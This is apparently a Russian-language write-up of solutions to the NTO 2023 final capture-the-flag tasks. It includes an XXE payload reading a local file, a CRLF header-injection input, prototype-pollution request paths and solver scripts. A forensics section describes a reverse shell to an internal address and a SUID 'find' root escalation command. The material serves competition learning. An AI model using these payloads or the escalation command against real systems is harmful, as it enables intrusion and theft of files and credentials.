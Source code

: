# nto-final-2023-solves

## WEB 1

Пробуем различные атаки, используя форму рассчёта цены. Расшифровываем входящие и исходящие данные, используя клиентский js-скрипт, расположенный на сайте.
Замечаем, что в функцию encrypted можно передать xml помимо json. Значит, можно попытаться совершить xxe-атаку. Пробуем передать следущие данные (используя burpsuite), предварительно зашифровав их:

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><startdate>&xxe;</startdate><enddate>&xxe;</enddate><resttype>&xxe;</resttype></data>

Получаем ответ от сервера, расшифровываем:

    {"format":"xml","data":"<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE foo [\n<!ENTITY xxe SYSTEM \"file:///flag.txt\">\n]>\n<data>\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</countries>\n  <startdate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</startdate>\n  <enddate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</enddate>\n  <resttype>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</resttype>\n  <price>NaN</price>\n</data>\n"}

Видим, что флаг:

    nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}

## WEB 2

Исследуем скрипт приложений. Замечаем уязвимость в скрипте приложения, запущенного на порте 3002: куки небезопасно вставляются и передаются в приложение на порте 3001.
Переменную flag мы менять не можем, а вот переменную username вольно задаём при регистрации. Используя burpsuite, пробуем применять header injection в username.

Передаём следующий ник:

    test\r

На сервере возникает ошибка, и он выводит нам сообщение:

Bad Request Bare CR or LF found in header line "Cookie: username=test ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)

Как видим, флаг:

    nto{request_smuggling_917a34072663f9c8beea3b45e8f129c5}

## WEB 3

Анализируем исходный код приложения. Видим, что можно применить prtotype pollution, напрямую через интерфейс сайта. Видим, что в коде самого приложения уязвимостей нету. Изучаем на github исходные ходы библиотек, использующихся в приложении.
В исходном коде библиотеки passport находим подходящее свойство для prototype pollution - userProperty.
Замечаем, что при присваивании свойству userProrerty значения isLocalRequest, при аутенфикации в isLocalRequest запишется информация о пользователе. Последовательно переходим по следующим каталогам сайта:

    /pollute/userProperty/isLocalRequest
    /auth?username=test
    /admin/flag

Получаем флаг:

    nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}

## CRYPTO 1

После нескольких запусков исходного кода замечаем, что вывод первый чисел не зависит от длины введенной строки. Немного редактируем файл, дописывая полный перебор в его конец:

    orig = [277, 92, 775, ... 926, 1281, 631]
    res = ''

    for i in range(len(orig)):
       for j in 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLXCVBNM{}_1234567890':
         dihedral = DihedralCrypto(1337)
         answer = dihedral.hash((res + j).encode('utf-8'))
         if answer[i] == orig[i]:
           res += j
           break
    print(res)

Запустив его и подождав пару минут, получаем флаг:

    nto{5tr4ng3_gr0up_5tr4ng3_l0g_and_depressed_kid_zxc_ghoul}

## CRYPTO 2

Замечаем, что если очередной бит флага равен 1, то результат, возращаемый с сервера, может быть абсолютно любым. Иначе, результат не может быть меньше чем n // 2. Исольхуем этот факт при написании следующего кода:

    from requests import get
    from Crypto.Util.number import long_to_bytes

    n = 7260248502...14489681551

    def f():
      cur_i, ans = 0, ''
      res = None
      while True:
        for _ in range(10):
          res = get(f'http://10.10.25.10:1177/guess_bit?bit={cur_i}').json()
          if 'error' in res:
            return ans
          if res['guess'] < n // 2:
            ans += '1'
            cur_i += 1
            break
        else:
          cur_i += 1
          ans += '0'

    print(long_to_bytes(int(f(), 2)).decode('utf-8'))

Запускаем, получаем флаг:

    nto{0h_n0_t1m1ng}

## REVERSE 2

Открыв данный исполняемый файл в IDA, сразу идем в функцию, где происходит проверка флага (поиск по подстроке nto). В этой функции видно, что данная строка разбивается на 7 int32 чисел и переводится в little-endian формат. 
Далее мы находим вызовы в инициализацию эмулятора unicorn, а также 224-байтный шеллкод на архитектуре MIPS x32. При дизассемблинге данного шелла, мы находим основную проверку на корректность флага. Алгоритм шифрования выглядит так:

    flag[0] &= 0x2c2c2c2c;
    compare(flag[0], const0);
    flag[0] ^= flag[1];
    compare(flag[0], const1);
    flag[0] ^= flag[2];
    compare(flag[0], const1);
    ....
    flag[0] &= flag[7];
    compare(flag[0], const7);

В данном случае можно легко восстановить операции xor, т.к. они однозначно обратимы. Получаем флаг (неизвестные части - знак вопроса)

    nto{Wh0_54id????s_1S_M3d????

В случае с and (4 и 7 части флага), можно догадаться что это слова This и Medium. Получаем флаг:

    nto{Wh0_54id_Th1s_1S_M3dium}
   
## PART 2 - VM 1(LINUX)

Злоумышленник попал на машину используя reverse-shell вшитый в файл игры minecraft.jar. Он подключался на 192.168.126.129:4444 и выполнял удаленные команды. После заражения, используя linPEAS, злоумышленник использовал неправильно настроенный find с suid битом. Используя команду 

    find . -exec /bin/sh -p ; -quit 
   
он поднял права до root. После заражения, злоумышленник загрузил кейлоггер logkeys. В истории команд можно найти путь до исполняемого файла кейлоггера: /home/sergey/Downloads/build/src/logkeys. Загрузив файл в любой дизассемблер, можно быстро найти как кейлоггер берет путь до файла лога. В кейлоггере используется простой XOR по ключу. Расшифровав путь, получаем /var/log/logkeys.log. Там и хранятся логи. Это также видно из истории команд bash_history. В файле /var/log/logkeys.log злоумышленник нашел логи нажатий клавиш, откуда нашел пароль от keepass2: 

    1_D0N7_N0W_WHY_N07_M4Y83_345Y

Запустив keepass2 и введя этот пароль, можно найти пароль от "windows rdp": 

    SecretP@ss0rdMayby_0rNot&
